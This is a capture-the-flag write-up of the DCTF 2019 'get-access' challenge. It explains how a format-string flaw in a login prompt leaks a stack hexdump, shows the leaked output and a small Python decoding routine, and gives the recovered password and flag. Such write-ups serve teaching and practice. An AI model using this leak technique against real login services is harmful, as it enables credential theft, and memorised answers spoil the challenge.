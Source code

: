 # get-access:
## Challenge Description:
* There is no binary for this challenge.
* The task is to find the flag/password by connecting to the challenge server via netcat.
* Once we are connected, the server prompts us for a username and password.

## Vulnerabilities:
* The username input is vulnerable to a format string attack.
* I spammed the username field with 100 %x's to print a hexdump of the stack with the help of the pwntools and our python script.
* This is what is returned to:
```c
[+] Opening connection to 206.81.24.129 on port 1337: Done
[+] Response: You must login first before get the flag
Enter username:
[+] Response: Enter password:ff82b5662a9f4400802578b60425782578257825782578257825782578257825782578257825782578257825782578257825782578780000000000000[5f240000533148544854533133573433334d305353733450445230775952304643445530303246545f3931]782578257825782578257825782578257825782578257825782578257825782578257825 does not have access!
```
* The interesting part is marked between the square brackets. This is basically a hex encoded string so I developed some python code to decode this, taking into account the byte ordering. The code is shown below:
```py
    def extract_flag(extracted_hex):
        message = list(extracted_hex.decode('hex'))
        flag = []

        n = len(message)
        for i in range(0, n, 4):
            if i + 3 < n:
                flag.append(message[i + 3])

            if i + 2 < n:
                flag.append(message[i + 2])

            if i + 1 < n:
                flag.append(message[i + 1])

            flag.append(message[i])

        print "[+] Raw password: " + extracted_hex
        print "[+] Decoded password: " + ''.join(flag) + " (Ignore QQ)"
        return 0 

    extract_flag("5f245151533148544854533133573433334d305353733450445230775952304643445530303246545f3931")
```
* Only two bytes of the first 4 bytes are actually used i.e 5f24 are used but 5151 are just padding bytes.
* The extracted password is: $_TH1S1STH34W3S0M3P4sSw0RDF0RY0UDCTF2019_

## Getting the flag:
* Sending any username (I chose to send DCTF2019) and the extracted password returns the flag.

## Flag:
DCTF{BD8C664E74EB942225EFB74CFD76EC4B2FDA0C37A2D567B707AA1407781FF77F}

## Scripts used:
```
    See exploit.py
```